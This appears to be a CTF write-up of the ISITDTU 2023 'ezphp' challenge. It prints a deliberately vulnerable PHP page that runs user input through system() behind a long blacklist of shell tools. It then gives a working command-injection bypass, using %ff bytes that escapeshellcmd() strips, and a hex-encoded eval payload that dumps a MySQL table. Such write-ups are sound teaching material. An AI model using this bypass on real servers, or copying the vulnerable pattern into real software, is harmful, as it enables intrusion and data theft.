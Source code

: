 ```yaml
---
layout: post
title: ISITDTU CTF Qualifiers 2023 - ezphp Writeup
excerpt: "Despite being titled ezphp, this challenge was anything but easy. Let's take a look at how I solved it."
categories: [Writeups]
tags: [web]
---
```

Despite being titled ezphp, this challenge was anything but easy. It took be beyond the end of the CTF to finish, but it was a fun challenge nonetheless. 

We are provided a link and some source code. The source code is as follows:

```php
<html>
 <head>
  <title> Debug Page...</title>

  <meta charset="utf-8">

  <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.0/jquery.min.js"></script>
  <script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

</head>
<body>
    <div class="container">
    <?php
    error_reporting(0);
    $conn = mysqli_connect('db', 'user', 'test', "dockerExample");


    $query = 'SELECT * From Person';
    $result = mysqli_query($conn, $query);

    echo '<table class="table table-striped">';
    echo '<thead><tr><th></th><th>id</th><th>name</th></tr></thead>';
    while($value = $result->fetch_array(MYSQLI_ASSOC)){
        echo '<tr>';
        echo '<td><a href="#"><span class="glyphicon glyphicon-search"></span></a></td>';
        foreach($value as $element){
            echo '<td>' . $element . '</td>';
        }

        echo '</tr>';
    }
    echo '</table>';

    $result->close();

    mysqli_close($conn);

    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
 
	$cmd = $_GET['cmd']; 
    foreach ($blacklists as $blacklist) {
    	$pattern = "/$blacklist/";
		if (preg_match($pattern, $cmd)) {
			die("Blacklist");
		}
	}

    system(escapeshellcmd($cmd));

    ?>
    </div>
</body>
</html>
```

We have a lot to look at, not only do have an extrmemly extensive blacklist, but we also have a database conneciton. We can see that the database connection is to a mysql database, and we can see that the database name is dockerExample.

Looking at the sql file we are given, we can see that there are two tables, Person and Flag_is_secret. 


```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;


CREATE TABLE `Person` (
  `id` int(11) NOT NULL,
  `name` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

CREATE TABLE `Flag_is_secret` (
  `id` int(11) NOT NULL,
  `flagss1337` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

INSERT INTO `Person` (`id`, `name`) VALUES
(1, 'Doraemon'),
(2, 'Conan'),
(3, 'Hanamichi');

INSERT INTO `Flag_is_secret` (`id`, `flagss1337`) VALUES
(1, 'NA'),
(2, 'NA'),
(3, 'ISITDTU{fake_flag}');

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;

```

We can see that the flag is stored in the Flag_is_secret table, but we unfornately cannot access it directly. This is where the cmd parameter comes in. 

We can use the cmd parameter to run commands on the server. However, we are limited by the blacklist.
    
```php
    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
```

It is truely extensive, and it took me a while to find a bypass. I tried a lot of different things, but I eventually found a bypass. 
```
%ff
```
This bypasses the blacklist, and allows us to run commands. As we can see here we can run "php"
![](https://i.imgur.com/ZzsHzgm.png)

We now have to connect to the mysql database in order to extract the flag. We can do this by running the following command:
```php
ª$c = new mysqli('db', 'root', 'test', 'dockerExample');
$r = $c->query('SELECT * FROM The_table_you_dont_know');
while ($w = $r->fetch_assoc()) {
    print_r($w);
}
```
This php code will connect to the mysql database, and print out the contents of the table `the_table_you_dont_know` as it not actually in the `flag_is_secret` table.

We can then convert this php into hex:
```
aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a
```

We can then use eval(), substr() and hex2bin() to run this php code:
```php
php -r eval(substr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1));
```

Thought we still have have an issue with the blacklist. We can bypass this by using %ff. There is a flaw in PHP's escapeshellcmd() function  which stems from its handling of invalid Unicode characters, creating a security gap ripe for exploitation. Initially, the input is scanned against a blacklist via regex, which fails to match harmful strings like `ph\xFFp` due to the presence of `\xFF`. When escapeshellcmd() is invoked, it removes these invalid Unicode characters, effectively transforming the string into something like php, which bypasses the original filter. This results in a discrepant string representation at the regex and shell escaping stages, ultimately leaving the system vulnerable to command injection attacks.

The php documentation says the following are escaped by escapeshellcmd():
```
&#;`|*?~<>^()[]{}$\, \x0A and \xFF.
``` 




Keeping this bypass in mind, we can then run the following command after url encoding it:
```php
p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1))%3b
```

We can then run this command in the url, and we get the flag:
![](https://i.imgur.com/DQQFSws.png)

Even though I struggled, I learned a lot, and I had a lot of fun. I hope you enjoyed this writeup, and thank you to the ISITDTU team for hosting this CTF. See you next year!